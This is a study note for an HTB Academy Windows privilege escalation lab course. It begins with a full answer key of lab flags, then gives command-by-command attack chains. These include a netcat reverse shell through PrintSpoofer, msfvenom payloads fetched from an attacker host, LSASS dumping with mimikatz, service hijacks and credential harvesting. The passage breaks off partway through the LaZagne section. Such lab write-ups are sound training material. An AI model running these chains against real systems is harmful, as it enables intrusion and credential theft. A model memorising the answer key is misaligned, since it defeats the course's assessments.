


# Windows Privilege Escalation (HTB Supplementary)

HTB Academy module, supplementary to [[Windows Privilege Escalation (Offsec)|Module 17 (Offsec)]]. That module covers the service binary hijacking, DLL hijacking, unquoted paths, scheduled tasks, SeImpersonatePrivilege (SigmaPotato), SeBackupPrivilege (hive dump), AlwaysInstallElevated, and kernel exploits (CVE-2023-29360/28252). This note documents what is genuinely new.

Cross-reference [[Windows Privilege Escalation]] (Command Appendix) and [[Windows Privilege Escalation (Decision Tree)]] for quick lookups.

Authors: mrb3n, PlainText, Sentinal

---

Tags: #WindowsPrivEsc #HTBSupplementary #SeDebugPrivilege #SeTakeOwnershipPrivilege #SeLoadDriverPrivilege #DnsAdmins #PrintOperators #ServerOperators #EventLogReaders #UACBypass #HiveNightmare #PrintNightmare #Credential Hunting #mRemoteNG #SCFAttack #Pillaging #Restic #CitrixBreakout

---

## Outstanding Sections

All sections complete. Q&A verified.

---

## Module Q&A Answers

| Section | Answer |
|---------|--------|
| WPE.1 Situational Awareness Q1 | `172.16.20.45` |
| WPE.1 Situational Awareness Q2 | `powershell_ise.exe` |
| WPE.2 Initial Enumeration Q1 | `SeTakeOwnershipPrivilege` |
| WPE.2 Initial Enumeration Q2 | `sarah` |
| WPE.2 Initial Enumeration Q3 | `tomcat8` |
| WPE.2 Initial Enumeration Q4 | `sccm_svc` |
| WPE.2 Initial Enumeration Q5 | `console` |
| WPE.3 Communication with Processes Q1 | `filezilla server` |
| WPE.3 Communication with Processes Q2 | `NT SERVICE\MSSQL$SQLEXPRESS01` |
| WPE.4 SeImpersonate Q1 | `F3ar_th3_p0tato!` |
| WPE.5 SeDebugPrivilege Q1 | `64f12cddaa88057e06a81b54e73b949b` |
| WPE.6 SeTakeOwnershipPrivilege Q1 | `1m_th3_f1l3_0wn3r_n0W!` |
| WPE.7 Built-in Groups Q1 | `Car3ful_w1th_gr0up_m3mberSh1p!` |
| WPE.8 Event Log Readers Q1 | `W1ntergreen_gum_2021!` |
| WPE.9 DnsAdmins Q1 | `Dll_abus3_ftw!` |
| WPE.10 Print Operators Q1 | `Pr1nt_0p3rat0rs_ftw!` |
| WPE.11 Server Operators Q1 | `S3rver_0perators_@ll_p0werfull!` |
| WPE.12 UAC Q1 | `I_bypass3d_Uac!` |
| WPE.13 Weak Permissions Q1 | `Aud1t_th0se_s3rv1ce_p3rms!` |
| WPE.14 Kernel Exploits Q1 | `D0nt_fall_b3h1nd_0n_Patch1ng!` |
| WPE.15 Vulnerable Services Q1 | `Aud1t_th0se_th1rd_paRty_s3rvices!` |
| WPE.16 Credential Hunting Q1 | `Pr0xyadm1nPassw0rd!` |
| WPE.16 Credential Hunting Q2 | `3ncryt10n_w0nt_4llw@ys_s@v3_y0u` |
| WPE.17 Other Files Q1 | `1qazXSW@3edc!` |
| WPE.18 Further Credential Theft Q1 | `S3cret_db_p@ssw0rd!` |
| WPE.18 Further Credential Theft Q2 | `amanda` |
| WPE.18 Further Credential Theft Q3 | `ILVCadm1n1qazZAQ!` |
| WPE.18 Further Credential Theft Q4 | `Ftpuser!` |
| WPE.19 Citrix Breakout Q1 | `CitR1X_Us3R_Esc@p3` |
| WPE.19 Citrix Breakout Q2 | `C1tr!x_3sC@p3_@dm!n` |
| WPE.20 Interacting with Users Q1 | `Password1` |
| WPE.21 Pillaging Q1 | `mRemoteNG` |
| WPE.21 Pillaging Q2 | `Princess01!` |
| WPE.21 Pillaging Q3 | `HTB{Stealing_Cookies_To_AccessWebSites}` |
| WPE.21 Pillaging Q4 | `Superbackup!` |
| WPE.21 Pillaging Q5 | `BAC9DC5B7B4BEC1D83E0E9C04B477F26` |
| WPE.22 Miscellaneous Q1 | `!QAZXSW@3edc` |
| WPE.23 Windows Server Q1 | `L3gacy_st1ill_pr3valent!` |
| WPE.24 Windows Desktop Q1 | `Cm0n_l3ts_upgRade_t0_win10!` |
| WPE.25 Skills Assessment I Q1 | `3199986&3200970` |
| WPE.25 Skills Assessment I Q2 | `car3ful_st0rinG_cr3d$` |
| WPE.25 Skills Assessment I Q3 | `Ev3ry_sysadm1ns_n1ghtMare!` |
| WPE.25 Skills Assessment I Q4 | `5e5a7dafa79d923de3340e146318c31a` |
| WPE.26 Skills Assessment II Q1 | `Inl@n3fr3ight_sup3rAdm1n!` |
| WPE.26 Skills Assessment II Q2 | `el3vatEd_1nstall$_v3ry_r1sky` |
| WPE.26 Skills Assessment II Q3 | `password1` |

---

## WPE.1. Situational Awareness

The opening enumeration sweep before committing to any attack path.

### Network interfaces (pivot detection)

```cmd
ipconfig /all
```

Look for multiple Ethernet adapters. A second NIC in a different subnet means the target is a pivot point. The second NIC IP is the target for lateral movement.

**Q1 answer:** `172.16.20.45` (Ethernet1 adapter IPv4)

### AppLocker policy

```powershell
# See what AppLocker actually blocks
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Look for Action: Deny lines — PathConditions shows the blocked binary
```

Key fields: `PathConditions` = the file path blocked. `Action = Deny` confirms it is a block rule, not an allow rule.

**Q2 answer:** `powershell_ise.exe` (blocked by "Block PowerShell ISE" rule)

### Other standard awareness commands

```cmd
:: OS and patch level
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

:: Installed hotfixes (patching gaps)
wmic qfe

:: Running processes (services, vulnerable software versions)
tasklist /svc

:: Shares
net share

:: ARP cache (other hosts on the segment)
arp -a
```

🔁 Similar to: [[Windows Privilege Escalation (Offsec)#17.1. Situational Awareness|Module 17.1]] for the winPEAS automation of these checks.

---

## WPE.2. Initial Enumeration

### whoami /priv — find non-default privileges

```cmd
:: Run from an elevated CMD (UAC prompted)
whoami /priv
```

Standard users get: `SeChangeNotifyPrivilege`, `SeIncreaseWorkingSetPrivilege`.
Non-default = anything else. Common high-value ones:

| Privilege | Abuse path |
|-----------|-----------|
| `SeImpersonatePrivilege` | PrintSpoofer / JuicyPotato / SweetPotato |
| `SeAssignPrimaryTokenPrivilege` | Same as SeImpersonate |
| `SeBackupPrivilege` | Read any file (registry hive dump) |
| `SeRestorePrivilege` | Write any file |
| `SeDebugPrivilege` | lsass memory dump |
| `SeTakeOwnershipPrivilege` | Take ownership of any file/object |
| `SeLoadDriverPrivilege` | Load kernel drivers |

**Q1 answer:** `SeTakeOwnershipPrivilege`

### Group membership

```cmd
net localgroup "Backup Operators"
net localgroup "Event Log Readers"
net localgroup "DnsAdmins"
net localgroup "Print Operators"
net localgroup "Server Operators"
net localgroup Administrators
```

**Q2 answer:** `sarah` (sole member of Backup Operators)

### Listening services — port-to-process mapping

```cmd
netstat -ano
:: Find PID for port 8080, then:
tasklist | findstr /c:"2248"
:: Or Task Manager → Details tab → sort by PID
```

**Q3 answer:** `tomcat8` (PID on port 8080)

### Logged-in users and session types

```cmd
query user
```

Output columns: USERNAME, SESSIONNAME, ID, STATE, IDLE TIME, LOGON TIME.
Session types: `rdp-tcp#X` = RDP remote session, `console` = physical/local console.

**Q4 answer:** `sccm_svc`
**Q5 answer:** `console` (sccm_svc is logged into the physical console, not RDP)

> 📸 Screenshot: `query user` output showing both the sccm_svc console session and htb-student RDP session simultaneously

🔍 Worth remembering generally: a console session means that user is physically at the machine or in a hypervisor console. You can interact with their processes differently than an RDP session, and you may be able to capture their credentials if you have sufficient rights.

---

## WPE.3. Communication with Processes (Named Pipes)

Named pipes are IPC channels. WRITE_DAC on a pipe lets you modify its ACL. If you can impersonate a high-privilege pipe, you can escalate.

### Identify listening service on a port

```cmd
netstat -ano | findstr :21
:: Note the PID, then:
tasklist | findstr /c:"<PID>"
```

**Q1 answer:** `filezilla server` (listening on port 21, two words)

### Check named pipe ACLs with AccessChk

```cmd
cd C:\Tools\AccessChk
accesschk.exe -accepteula -w \pipe\SQLLocal\SQLEXPRESS01 -v
```

Look for: `WRITE_DAC` or `FILE_ALL_ACCESS` on a low-privilege account. That account can modify the pipe's ACL, then impersonate connections.

**Q2 answer:** `NT SERVICE\MSSQL$SQLEXPRESS01`

> 📸 Screenshot: accesschk output showing `RW NT SERVICE\MSSQL$SQLEXPRESS01` with `WRITE_DAC`

---

## WPE.4. SeImpersonate and SeAssignPrimaryToken

🔁 Similar to: [[Windows Privilege Escalation (Offsec)#17.4.4. SeImpersonatePrivilege|Module 17.4.4]] with SigmaPotato. The HTB module uses PrintSpoofer via MSSQL xp_cmdshell.

### Full chain via MSSQL xp_cmdshell + PrintSpoofer

```bash
# Step 1: connect to MSSQL with low-priv account
mssqlclient.py sql_dev@STMIP -windows-auth
# Password: Str0ng_P@ssw0rd!

# Step 2: enable xp_cmdshell
SQL> enable_xp_cmdshell

# Step 3: confirm SeImpersonatePrivilege is enabled
SQL> xp_cmdshell whoami /priv
# Look for: SeImpersonatePrivilege ... Enabled

# Step 4: on attack box, start nc listener
nc -nvlp PWNPO

# Step 5: PrintSpoofer reverse shell via xp_cmdshell
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "C:\tools\nc.exe PWNIP PWNPO -e cmd.exe"
# Output: [+] Found privilege: SeImpersonatePrivilege
#         [+] Named pipe listening...
```

Expected: nc listener receives a SYSTEM shell.

```cmd
:: Confirm in the received shell
type C:\Users\Administrator\Desktop\SeImpersonate\flag.txt
```

**Q1 answer:** `F3ar_th3_p0tato!`

> 📸 Screenshot: mssqlclient session showing xp_cmdshell + PrintSpoofer, then SYSTEM shell in nc listener

🔍 Worth remembering generally: PrintSpoofer works by coercing the Spooler service (which runs as SYSTEM) to authenticate to a named pipe the attacker controls. SeImpersonatePrivilege is what allows reading the SYSTEM token from that pipe. Same root idea as SigmaPotato.

---

## WPE.5. SeDebugPrivilege

SeDebugPrivilege allows attaching to any process, including LSASS. With it, you can dump LSASS memory and extract credentials from it.

### Dump LSASS with ProcDump then parse with Mimikatz

```cmd
:: Step 1: run as the user with SeDebugPrivilege (open elevated CMD)
:: Confirm: whoami /priv shows SeDebugPrivilege (may be Disabled — still works)

:: Step 2: dump lsass memory
cd C:\Tools\Procdump
procdump.exe -accepteula -ma lsass.exe lsass.dmp
:: Expected: "Dump 1 complete: 42 MB written in 1.0 seconds"

:: Step 3: copy dump to Mimikatz directory
copy lsass.dmp C:\Tools\Mimikatz\x64\
cd C:\Tools\Mimikatz\x64\
mimikatz.exe
```

Inside mimikatz:

```
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

Expected: NTLM hashes for every user with a cached session. Look for the target user's entry with `* NTLM :`.

**Q1 answer:** `64f12cddaa88057e06a81b54e73b949b` (sccm_svc NTLM hash)

> 📸 Screenshot: procdump creating lsass.dmp, then mimikatz parsing it and showing sccm_svc NTLM

🔍 Worth remembering generally: SeDebugPrivilege is Disabled by default but can still be enabled programmatically. ProcDump uses the -accepteula flag to skip the EULA prompt silently. The lsass dump works regardless of whether the privilege shows Disabled in whoami /priv, the tool enables it on launch.

🔁 Similar to: [[Password Attacks#SAM offline dump|SAM offline dump technique]] which dumps hashes via registry, not memory. SeDebugPrivilege enables the in-memory path which captures plaintext if WDigest is enabled.

---

## WPE.6. SeTakeOwnershipPrivilege

Allows taking ownership of any file or other object regardless of current ACL. Useful for reading files protected by a different owner (e.g., Administrator-only directories).

### Enable and use SeTakeOwnershipPrivilege

```powershell
:: Step 1: confirm privilege exists (even if Disabled)
whoami /priv

:: Step 2: import script to enable disabled token privileges
cd C:\Tools
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1

:: Step 3: verify SeTakeOwnershipPrivilege is now Enabled
whoami /priv

:: Step 4: take ownership of the target file
takeown /f 'C:\TakeOwn\flag.txt'
:: Expected: SUCCESS: The file ... is now owned by user "WINLPE-SRV01\htb-student"

:: Step 5: grant yourself read access (owning doesn't give read by default)
icacls 'C:\TakeOwn\flag.txt' /grant htb-student:F
:: Expected: processed file: C:\TakeOwn\flag.txt — Successfully processed 1 files

:: Step 6: read the file
cat 'C:\TakeOwn\flag.txt'
```

**Q1 answer:** `1m_th3_f1l3_0wn3r_n0W!`

> 📸 Screenshot: `takeown /f` success message, then `icacls /grant`, then `cat` showing flag

🔍 Worth remembering generally: two-step process. `takeown` gives you ownership but not necessarily the right to read. `icacls /grant :F` adds Full Control. Without step 5, step 6 gives "Access denied" even as owner.

High-value targets for SeTakeOwnershipPrivilege: `C:\Windows\System32\config\SAM`, `C:\Windows\System32\config\SYSTEM`, domain controller NTDS.dit, any other user's files.

---

## WPE.7. Windows Built-in Groups (SeBackupPrivilege via PowerShell modules)

🔁 Similar to: [[Windows Privilege Escalation (Offsec)#17.4.3. SeBackupPrivilege|Module 17.4.3]] where the hive dump method uses the Win32 API directly. The HTB module shows the PowerShell DLL module approach for file copying.

The `svc_backup` user is a member of Backup Operators. This gives SeBackupPrivilege and SeRestorePrivilege even though they show as Disabled.

### SeBackupPrivilegeCmdlets DLL method

```powershell
:: Connect as svc_backup user (has Backup Operators membership)
whoami /priv
:: Shows: SeBackupPrivilege ... Disabled (irrelevant)

cd C:\Tools
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

:: Enable the privilege
Set-SeBackupPrivilege
whoami /priv
:: Now shows: SeBackupPrivilege ... Enabled

:: Copy a file you couldn't read before
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt' flag.txt
:: Expected: Copied 30 bytes

cat flag.txt
```

**Q1 answer:** `Car3ful_w1th_gr0up_m3mberSh1p!`

> 📸 Screenshot: `Set-SeBackupPrivilege` output, then `Copy-FileSeBackupPrivilege` succeeding on a normally-inaccessible file

---

## WPE.8. Event Log Readers

Members of the Event Log Readers group can read Security event logs. These logs often contain cleartext credentials typed as command-line arguments (process creation events, Event ID 4688).

```powershell
:: Confirm group membership
net localgroup "Event Log Readers"

:: Search Security logs for /user arguments (cleartext creds passed to net use, cmdkey, etc.)
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

Expected: lines like:
```
Process Command Line: net  use Z: \\DB01\scripts /user:mary W1ntergreen_gum_2021!
Process Command Line: cmdkey  /add:WEB01 /user:amanda /pass:Passw0rd!
```

The second field after `/user:` is the username, and the field after that is the cleartext password. This works because Event ID 4688 (process creation with command line auditing) logs the full command including passwords.

**Q1 answer:** `W1ntergreen_gum_2021!` (mary's password from `net use` command log)

> 📸 Screenshot: wevtutil output showing the plaintext credential in the process command line

🔍 Worth remembering generally: `wevtutil qe Security /rd:true /f:text` = read security log in text format, newest entries first (`/rd:true`). The `/user` string catches both `net use /user:` and `cmdkey /add: /user:` patterns. This is a passive credential hunt that costs nothing, no interaction with other users required.

---

## WPE.9. DnsAdmins Group

Members of DnsAdmins can load a plugin DLL into the DNS service (`dns.exe`). Since DNS runs as SYSTEM, loading a malicious DLL = SYSTEM code execution.

### DnsAdmins DLL injection chain

```bash
# Step 1: On attack box, craft malicious DLL
# (adds current user to Domain Admins — runs as SYSTEM in dns.exe context)
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

# Step 2: Host the DLL
python3 -m http.server 7777
```

On the Windows target (as a DnsAdmins member):

```cmd
:: Step 3: Download the DLL
wget "http://PWNIP:7777/adduser.dll" -outfile "adduser.dll"

:: Step 4: Load the DLL as the DNS server plugin
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\adduser.dll
:: Expected: Registry property serverlevelplugindll successfully reset.

:: Step 5: Restart DNS service to trigger the DLL load
sc stop dns
sc start dns
:: Note: DNS may fail to start (exit code 1053) — that's expected. The DLL ran anyway.

:: Step 6: Verify domain admin membership
net group "Domain Admins" /dom
:: netadm should now appear

:: Step 7: Sign out and back in for the new group membership to take effect
:: Then access the flag
type C:\Users\Administrator\Desktop\DnsAdmins\flag.txt
```

**Q1 answer:** `Dll_abus3_ftw!`

> 📸 Screenshot: `dnscmd.exe /config /serverlevelplugindll` success, then `net group "Domain Admins" /dom` showing netadm added

🔍 Worth remembering generally: the DLL runs in the context of `dns.exe` which is `NT AUTHORITY\SYSTEM`. The DNS service may fail to restart properly after the malicious DLL runs (the DLL payload exits uncleanly) but the payload still executes. Always check group membership after restarting the service.

---

## WPE.10. Print Operators (SeLoadDriverPrivilege)

Print Operators get SeLoadDriverPrivilege. This allows loading arbitrary kernel drivers. Exploit: load a vulnerable driver (Capcom.sys) then use it for token stealing.

### EoPLoadDriver + ExploitCapcom chain

```cmd
:: Requires an elevated CMD (UAC prompted with printsvc creds)
cd C:\Tools

:: Step 1: EoPLoadDriver enables SeLoadDriverPrivilege, creates registry key, loads driver
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
:: Expected: [+] Enabling SeLoadDriverPrivilege
::            [+] SeLoadDriverPrivilege Enabled
::            NTSTATUS: 00000000, WinError: 0

:: Step 2: ExploitCapcom uses the loaded driver for token stealing
cd \Tools\ExploitCapcom
ExploitCapcom.exe
:: Expected: [*] Capcom.sys exploit
::            [+] Token stealing was successful
::            [+] The SYSTEM shell was launched

:: A new CMD window opens as SYSTEM — read flag from it
type C:\Users\Administrator\Desktop\flag.txt
```

**Q1 answer:** `Pr1nt_0p3rat0rs_ftw!`

> 📸 Screenshot: ExploitCapcom output showing token stealing success, then SYSTEM CMD window with flag

---

## WPE.11. Server Operators

Server Operators can start, stop, and configure most Windows services. The key: they can modify a service's binary path (`binPath`), then restart it. Whatever binary path is set runs as the service's configured account (often SYSTEM or LocalSystem).

### Service binary path hijack chain

```cmd
:: Step 1: query a service that runs as LocalSystem
sc qc AppReadiness
:: Confirms: SERVICE_START_NAME : LocalSystem

:: Step 2: verify Server Operators have service control rights
C:\Tools\PsService.exe security AppReadiness
:: Look for: [ALLOW] NT AUTHORITY\INTERACTIVE (Server Operators fall under this in some configs)

:: Step 3: redirect service binary to add your user to local Admins
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
:: Expected: [SC] ChangeServiceConfig SUCCESS

:: Step 4: start the service (will fail exit-code-wise but the command runs)
sc start AppReadiness
:: Expected: [SC] StartService FAILED 1053 — this is expected!

:: Step 5: confirm group membership updated
net localgroup Administrators
:: server_adm should now appear

:: Step 6: sign out and reconnect; now have local admin rights
type C:\Users\Administrator\Desktop\ServerOperators\flag.txt
```

**Q1 answer:** `S3rver_0perators_@ll_p0werfull!`

> 📸 Screenshot: `sc config` + `sc start` (expected failure) + `net localgroup Administrators` showing server_adm added

🔍 Worth remembering generally: the service start failure (1053) doesn't mean the payload didn't run. The `cmd /c` payload completes successfully before the service attempts to properly initialize. Always verify the side-effect (group membership, file creation, etc.) rather than trusting the sc.exe return code.

---

## WPE.12. User Account Control (UAC Bypass)

UAC creates a filtered token for admin users. Even local admins get a standard-privilege token until they approve UAC elevation. Bypasses exist that auto-elevate without the prompt.

Key UAC bypass methods (all require the user to already be a local admin):

- **Bypass-UAC.ps1** (UacMethodSysprep): drops a DLL in `C:\Windows\System32` that sysprep.exe auto-loads on start. Sysprep auto-elevates, so the DLL runs with full admin.
- **fodhelper.exe** (registry hijack): `fodhelper.exe` auto-elevates and reads from a user-writable registry key.
- **eventvwr.exe** (registry hijack): similar pattern.

All of these only work when UAC is not set to "Always Notify" (the default setting allows them).

```powershell
:: Check UAC level
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
:: ConsentPromptBehaviorAdmin: 0 = no prompt at all (already bypassed)
:: 2 = prompt for creds (highest, blocks most bypasses)
:: 5 = default (prompt for non-Windows binaries)
```

**Q1 answer:** `I_bypass3d_Uac!` (flag found on sarah's Desktop after UAC bypass grants full admin)

> 📸 Screenshot: sarah's Desktop with flag.txt visible after UAC bypass completes

🔁 Similar to: [[Windows Privilege Escalation (Offsec)#17.4.5. AlwaysInstallElevated|17.4.5]] for another UAC-related bypass (the MSI installer path).

---

## WPE.13. Weak Permissions (SharpUp)

SharpUp is the C# port of PowerUp. It quickly audits modifiable services and service binaries.

### SharpUp + service binary replacement

```cmd
:: Step 1: audit for weak service permissions
SharpUp.exe audit
:: Output shows:
:: === Modifiable Services ===
::   WindscribeService (path: "C:\Program Files (x86)\Windscribe\WindscribeService.exe")
:: === Modifiable Service Binaries ===
::   SecurityService (path: "C:\Program Files (x86)\PCProtect\SecurityService.exe")
```

**Modifiable Service** = you can change its configuration (sc config). **Modifiable Service Binary** = you can overwrite the .exe file the service runs.

```bash
# Step 2: on attack box, generate malicious replacement binary
msfvenom -p windows/x64/shell_reverse_tcp LHOST=PWNIP LPORT=PWNPO -f exe > SecurityService.exe
python3 -m http.server 8080

# Step 3: start listener
nc -nvlp PWNPO
```

On Windows target:

```cmd
:: Step 4: download and replace the service binary
certutil.exe -f -urlcache http://PWNIP:8080/SecurityService.exe SecurityService.exe
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"

:: Step 5: start the service (triggers the binary = triggers reverse shell)
sc start SecurityService
```

Expected: reverse shell in nc listener running as SYSTEM.

```cmd
type C:\Users\Administrator\Desktop\WeakPerms\flag.txt
```

**Q1 answer:** `Aud1t_th0se_s3rv1ce_p3rms!`

> 📸 Screenshot: SharpUp output showing SecurityService, then nc listener receiving SYSTEM shell

---

## WPE.14. Kernel Exploits (HiveNightmare / CVE-2021-36934)

Windows 10 (builds 1809-21H1) improperly sets ACLs on Volume Shadow Copy backups of the SAM, SYSTEM, and SECURITY hives. Any user can read them, allowing offline hash extraction.

```powershell
:: Check for VSS shadows containing the vulnerable hives
cd C:\Tools
.\CVE-2021-36934.exe
:: Output shows SAM/SYSTEM/SECURITY paths in VSS
:: Extracts and prints: Administrator:500:...:NTLM_HASH:::
```

Once you have the NTLM hash, use it for PtH:

```bash
# From attack box: PtH via SMB to read files
smbclient -U administrator '\\STMIP\C$' --pw-nt-hash
# Enter the NTLM hash as the password when prompted

smb> get Users\Administrator\Desktop\flag.txt
smb> exit
cat 'Users\Administrator\Desktop\flag.txt'
```

**Q1 answer:** `D0nt_fall_b3h1nd_0n_Patch1ng!`

> 📸 Screenshot: CVE-2021-36934.exe output showing NTLM hash, then smbclient PtH access

🔍 Worth remembering generally: HiveNightmare is passive, no interaction with other users, no service manipulation. It reads VSS shadow copy paths that Windows 10 accidentally made world-readable. The check is fast: run the PoC, if it outputs hashes, the system is vulnerable.

Other Windows kernel CVEs to know:

| CVE | Nickname | Target OS | Method |
|-----|----------|-----------|--------|
| CVE-2021-36934 | HiveNightmare/SeriousSAM | Win10 1809-21H1 | VSS SAM read = hash extraction |
| CVE-2021-1675 | PrintNightmare | All Windows (2021) | Spooler DLL injection = SYSTEM |
| MS10-092 | Task Scheduler XML | Windows 7/2008 R2 | XML task manipulation |
| MS16-032 | Secondary Logon | Windows 7-10 | Thread handle leak = SYSTEM shell |

🔁 Similar to: [[Windows Privilege Escalation (Offsec)#17.4.3. Kernel Exploits|Module 17.4.3]] for the CVE-2023-29360/28252 OSCP-era kernel exploits.

---

## WPE.15. Vulnerable Services (Druva inSync)

Third-party services often run as SYSTEM or Network Service and may have unpatched vulnerabilities.

### Druva inSync RCE (port 6064)

Druva inSync client service listens on `127.0.0.1:6064` and accepts commands from localhost without authentication. This is reachable from a low-priv shell and allows arbitrary command execution as SYSTEM.

```powershell
:: Confirm service is running on 6064
netstat -ano | findstr 6064
:: TCP 127.0.0.1:6064 LISTENING <PID>

get-process -Id <PID>
:: Shows: inSyncCPHwnet64

get-service | ? {$_.DisplayName -like 'Druva*'}
:: Status: Running, Name: inSyncCPHService
```

Exploitation uses a PowerShell script (`Druva.ps1` on target) that sends a crafted message to port 6064 triggering the service to download and execute a remote PowerShell script.

```bash
# On attack box:
# 1. Download Invoke-PowerShellTcp.ps1, add this line at the bottom:
# Invoke-PowerShellTcp -Reverse -IPAddress PWNIP -Port 9443
# 2. Start HTTP server in that directory
python3 -m http.server 8080
# 3. Start nc listener
nc -nvlp 9443
```

On target:

```powershell
:: Edit C:\Tools\Druva.ps1 — set PWNIP and port 8080 for the HTTP server
:: Then run it:
.\Druva.ps1
:: Output: 22, 4, 4, 316 (response bytes from service)
```

Expected: nc listener receives a `WINLPE-WS01$` (machine account) shell running as SYSTEM.

```powershell
type C:\Users\Administrator\Desktop\VulServices\flag.txt
```

**Q1 answer:** `Aud1t_th0se_th1rd_paRty_s3rvices!`

---

## WPE.16. Credential Hunting

### findstr sweep

```powershell
:: Search common config file types for the word "password"
cd C:\Users
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
:: /S = recursive, /I = case-insensitive, /M = print only filenames

:: Then investigate the hits:
type .\Public\Documents\settings.xml
:: May contain: <password>Pr0xyadm1nPassw0rd!</password>
```

**Q1 answer:** `Pr0xyadm1nPassw0rd!` (found in Maven `settings.xml` proxy config)

### Encrypted PowerShell credentials (SecureString pass.xml)

PowerShell's `Export-Clixml` creates encrypted credentials tied to the current user + machine via DPAPI. If you ARE that user, you can decrypt them:

```powershell
:: Decrypt pass.xml (only works as the user who created it, on the same machine)
$credential = Import-Clixml -Path C:\Users\bob\AppData\Roaming\pass.xml
$credential.GetNetworkCredential().password
```

Expected: plaintext password output.

**Q2 answer:** `3ncryt10n_w0nt_4llw@ys_s@v3_y0u` (flag on bob's Desktop after decrypting)

> 📸 Screenshot: findstr output showing settings.xml path, then `type` revealing the proxy password

---

## WPE.17. Other Files (Sticky Notes — plum.sqlite)

Windows Sticky Notes stores its data in a SQLite database. Credentials pasted into sticky notes persist here.

```powershell
:: Navigate to PSSQLite tools
cd C:\Tools\PSSQLite
Set-ExecutionPolicy Bypass -Scope Process

:: Import the module (press R for "Run once" when prompted)
Import-Module .\PSSQLite.psd1

:: Query the Sticky Notes database
$db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
```

Expected output includes lines like:
```
\id=... bob_adm:1qazXSW@3edc!
\id=... root:Vc3nt3R_adm1n!
```

**Q1 answer:** `1qazXSW@3edc!` (bob_adm's password from sticky note)

> 📸 Screenshot: `Invoke-SqliteQuery` output showing multiple sticky note entries including credentials

🔍 Worth remembering generally: the Sticky Notes database path uses a long GUID as part of the package directory. The actual file is always `plum.sqlite` but the path has this structure: `AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`. It is readable by the note owner without elevation.

---

## WPE.18. Further Credential Theft

Multiple tools for automated credential extraction from various sources.

### LaZagne — multi-source credential dump

```powershell
cd C:\Tools
.\lazagne.exe all
:: Harvests: WinSCP sessions, browser passwords, database tools (DbVisualizer), Outlook, etc.
```

Expected example output:
```
--- Dbvis passwords ---
Name: SQL01.inlanefreight.local
Login: sa
